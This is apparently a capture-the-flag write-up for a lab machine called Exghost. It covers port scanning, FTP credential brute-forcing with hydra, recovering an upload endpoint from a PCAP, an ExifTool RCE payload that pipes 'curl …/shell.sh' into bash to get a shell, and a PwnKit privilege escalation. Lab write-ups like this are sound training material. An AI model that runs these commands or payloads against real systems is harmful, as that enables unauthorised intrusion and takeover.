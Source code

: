 # Exghost

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 20:36 +08
Nmap scan report for 192.168.183.183
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp open   ftp
80/tcp open   http
```

FTP and HTTP.

### Port 80 Dead End

Port 80 just shows a 403 page:

<figure><img src="../../../.gitbook/assets/image (54) (9).png" alt=""><figcaption></figcaption></figure>

Running directory scans only shows one directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.183 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.183
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 20:54:36 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 320] [--> http://192.168.183.183/uploads/]
```

### FTP Brute Force --> Wireshark

Anonymous credentials don't work with this FTP system, and because we had no other choice, I started brute forcing the FTP login with `hydra`. This took quite a while, but eventually I found some credentials:

{% code overflow="wrap" %}
```
$ hydra -I -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/seclists/Passwords/cirt-default-passwords.txt 192.168.183.183 ftp

[21][ftp] host: 192.168.183.183  login: user  password: system
```
{% endcode %}

Great! Now we can login and view the files present:

```
$ ftp 192.168.183.183 
Connected to 192.168.183.183.
220 (vsFTPd 3.0.3)
Name (192.168.183.183:kali): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
```

The `backup` file was a PCAP file:

{% code overflow="wrap" %}
```
$ file backup         
backup: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```
{% endcode %}

We can open this up in `wireshark` and view the TCP streams. Within TCP Stream 1, we can find this HTTP request:

<figure><img src="../../../.gitbook/assets/image (104) (2).png" alt=""><figcaption></figcaption></figure>

Seems that we are able to upload files through POST requests at `exiftest.php`:

```
$ curl http://192.168.183.183/exiftest.php
There is no file to upload.
```

From the PCAP file, we can actually export the `exiftest.php` file:

<figure><img src="../../../.gitbook/assets/image (99) (1).png" alt=""><figcaption></figcaption></figure>

Interestingly the second `exiftest.php` was the response, and here's the contents:

```
$ cat exiftest\(1\).php 
File uploaded successfully :)<pre>ExifTool Version Number         : 12.23
File Name                       : phpopnW14.jpg
Directory                       : /var/www/html/uploads
File Size                       : 14 KiB
File Modification Date/Time     : 2022:01:27 14:47:37+02:00
File Access Date/Time           : 2022:01:27 14:47:37+02:00
File Inode Change Date/Time     : 2022:01:27 14:47:37+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 120
Y Resolution                    : 120
Image Width                     : 253
Image Height                    : 257
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 253x257
Megapixels                      : 0.065
</pre>
```

### File Upload --> Exiftool RCE

It appears that the website is accepting images, and then running `exiftool` on it as a response. This version of `exiftool` is vulnerable to an RCE exploit.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

We can create the payload by following the PoC:

```
$ exiftool -config eval.config runme.jpg -eval='system("curl 192.168.45.184/shell.sh|bash")'
    1 image files updated
```

We can then upload it using this script:

```python
import requests
url = 'http://192.168.183.183/exiftest.php'
files = {'myFile': open('runme.jpg', 'rb')}
print(requests.post(url, files=files).text)
```

After uploading it, we would get a shell as `www-data`:

<figure><img src="../../../.gitbook/assets/image (94) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Exploit --> Root

I ran a `linpeas.sh` scan on the machine. This found that `sudo` was outdated:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                 
Sudo version 1.8.31
```

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}

We can just download the Python script and execute it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (91) (1).png" alt=""><figcaption></figcaption></figure>
